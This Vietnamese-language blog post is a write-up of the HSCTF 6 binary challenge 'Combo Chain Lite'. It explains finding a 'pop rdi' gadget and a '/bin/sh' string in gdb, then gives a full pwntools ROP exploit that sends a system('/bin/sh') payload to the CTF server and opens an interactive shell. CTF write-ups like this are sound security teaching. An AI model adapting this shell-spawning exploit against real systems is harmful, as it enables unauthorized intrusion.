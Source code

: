 ```yaml
---
layout: post
published: true
title: 'HSCTF 6: Combo Chain Lite'
categories:
  - CTF
  - HSCTF
---
```

Xin chào.
Hôm nay mình muốn viết lại challenge này.

![Capture-combo-chain-lite.PNG]({{site.baseurl}}/img/ctf/HSCTF/2019/Capture-combo-chain-lite.PNG)


Chall sử dụng ROP (Return Oriented Programming). Nên trước tiên ta tìm địa chỉ chưa ROPgadget phù hợp.
Trong quy ước gọi ([calling conventions](https://ctf101.org/binary-exploitation/what-are-calling-conventions/)), các đối số được truyền vào các registers trong các chương trình 64-bit theo thứ tự như link tham khảo. Trong trường hợp của gọi `system`, thì chúng ta cần phải điều khiển thanh ghi RDI. Mình sẽ tìm các ROPgadget liên quan tới `pop rdi`. 

{: .box-note}
ROPgadget --binary ./combo-chain-lite \| grep "pop rdi"

Khi đã có được địa chỉ của ROP, ta sẽ cần tìm địa chỉ của hàm `system` khi được nạp vào chương trình khi được thực thi. Tuy nhiên ở đây chương trình đã cung cấp sẵn cho ta.

![exec-combo-chain-lite.PNG]({{site.baseurl}}/img/ctf/HSCTF/2019/exec-combo-chain-lite.PNG)

Tiếp theo ta cần tìm cách đưa chuỗi "/bin/sh" vào như đối số của `system`.
Nếu để ý thì trong chương trình đã có sẵn chuỗi đó, việc cần làm là tìm địa chỉ của nó trong chương trình mà thôi.

Có thể dùng gef hoặc gdb-peda.

-**Đối với gef:**
{% highlight bash linenos %}
$ gdb ./combo-chain-lite
gef➤  r
...
gef➤  grep /bin/sh
[+] Searching '/bin/sh' in memory
[+] In '/home/node/tmp/combo-chain-lite'(0x402000-0x403000), permission=r--
  0x402051 - 0x402058  →   "/bin/sh"
{% endhighlight %}

-**Đối với gdb-peda:**
{% highlight bash linenos %}
$ gdb ./combo-chain-lite
gdb-peda$ b*0x0000000000401209  #đặt breakpoint ở đoạn instruction sau khi in chuỗi
gdb-peda$ r
...
gdb-peda$ find "/bin/sh"
Searching for '/bin/sh' in: None ranges
Found 3 results, display max 3 items:
combo-chain-lite : 0x402051 --> 0x68732f6e69622f ('/bin/sh')
combo-chain-lite : 0x403051 --> 0x68732f6e69622f ('/bin/sh')
            libc : 0x7ffff7f67e80 --> 0x68732f6e69622f ('/bin/sh')
{% endhighlight %}


  

Đoạn code exploit của mình:

{% highlight python linenos %}
#Completed

from pwn import *

rm = remote("pwn.hsctf.com", 3131)

padding = "AAA%AAsAABAA$AAn" #16 ki tu (random pattern)
rop_addr = p64(0x0000000000401273)
bin_addr = p64(0x402051) #hoac 0x403051 /bin/sh string
sys_addr = p64(int(rm.recv().rsplit(': ')[1], 16)) 

payload = padding + rop_addr  + bin_addr + sys_addr
print payload
rm.recv()
rm.sendline(payload)
rm.interactive()
rm.close()
{% endhighlight %}

![combo-chain-lite-exploit.png]({{site.baseurl}}/img/ctf/HSCTF/2019/combo-chain-lite-exploit.png)

